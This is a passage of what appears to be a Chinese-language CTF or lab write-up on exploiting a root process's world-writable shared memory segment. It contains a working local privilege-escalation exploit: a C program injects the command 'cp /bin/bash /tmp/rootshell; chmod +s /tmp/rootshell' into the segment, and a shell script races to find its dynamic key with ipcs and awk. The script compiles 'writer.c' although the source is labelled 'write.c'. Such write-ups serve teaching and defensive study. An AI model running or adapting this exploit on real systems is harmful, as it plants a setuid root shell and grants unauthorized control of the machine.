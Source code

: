- `popen`：開啟一個 subprocess 並且可以讀取它的輸出


直接說結論，使用`watch -n 0.1 ipcs -m`，發現可以成功在 server_status執行時捕捉到了它所創建的共享記憶體區段，並發現每次執行其Key值都不同，而且其權限為666，代表任何使用者都可以讀寫。

所以我們思路就是構造可以自動`偵測->提取key->注入`的腳本。

write.c:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ipc.h>
#include <sys/shm.h>

int main(int argc, char *argv[]) {
    if (argc != 2) return 1;

    key_t key = (key_t)strtol(argv[1], NULL, 0);
    const char* cmd = "cp /bin/bash /tmp/rootshell; chmod +s /tmp/rootshell";

    int shmid = shmget(key, 1024, 0666);
    if (shmid == -1) return 1;

    char *shmaddr = shmat(shmid, NULL, 0);
    if (shmaddr == (void*)-1) return 1;

    strcpy(shmaddr, cmd);
    shmdt(shmaddr);
    return 0;
}
```

final_attack.sh
```sh
#!/bin/bash

gcc writer.c -o writer

./server_status &

#核心攻擊邏輯，用 ipcs、grep、awk 找出動態 Key
KEY=""
for i in {1..10}; do
    KEY=$(ipcs -m | grep 'root' | awk '{print $1}')
    if [ ! -z "$KEY" ]; then
        break
    fi
    sleep 0.01
done

if [ ! -z "$KEY" ]; then
    echo "Found dynamic key: $KEY, launching attack!"
    ./writer $KEY
fi
```

